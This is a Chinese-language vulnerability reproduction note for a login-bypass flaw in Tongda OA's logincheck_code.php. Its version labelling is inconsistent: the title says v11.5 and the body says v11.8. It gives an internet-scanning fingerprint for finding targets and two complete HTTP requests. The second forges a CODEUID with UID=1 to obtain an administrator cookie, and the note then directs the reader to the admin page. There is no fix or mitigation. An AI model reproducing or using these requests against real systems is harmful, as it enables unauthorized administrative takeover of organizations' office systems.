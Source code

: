# 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

```
通达OA v11.8
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520153945050](./images/202205201539126.png)

发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520153955791](./images/202205201539839.png)

再发送第二个恶意请求

```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![image-20220520154005687](./images/202205201540724.png)

获取cookie后访问管理员页面 `/general/index.php`

![image-20220520154020588](./images/202205201540662.png)